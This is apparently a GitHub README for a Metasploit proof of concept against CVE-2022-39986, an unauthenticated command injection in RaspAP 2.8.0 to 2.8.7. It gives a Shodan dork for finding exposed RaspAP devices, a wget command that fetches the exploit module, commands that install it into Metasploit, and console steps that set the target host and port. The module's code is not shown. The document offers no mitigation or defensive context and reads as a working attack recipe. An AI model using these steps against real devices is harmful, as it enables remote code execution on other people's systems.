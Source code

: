 # CVE-2022-39986
![](https://img.shields.io/static/v1?label=Product&message=RaspAP&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=2.8.0%20thru%202.8.7&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Command%20Injection&color=red)

- Shodan dork:
```
"RaspAP"
```

### Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2022/RaspAp_RCE/raspap_rce.rb
```
```
cp  raspap_rce.rb /usr/share/metasploit-framework/modules/exploits/unix/http/
```
### Usage
```
msfdb reinit; msfconsole -q
```
```
use exploit/unix/http/raspap_rce
```
```
set RHOST [IP]
set RPORT [PORT]
check
```
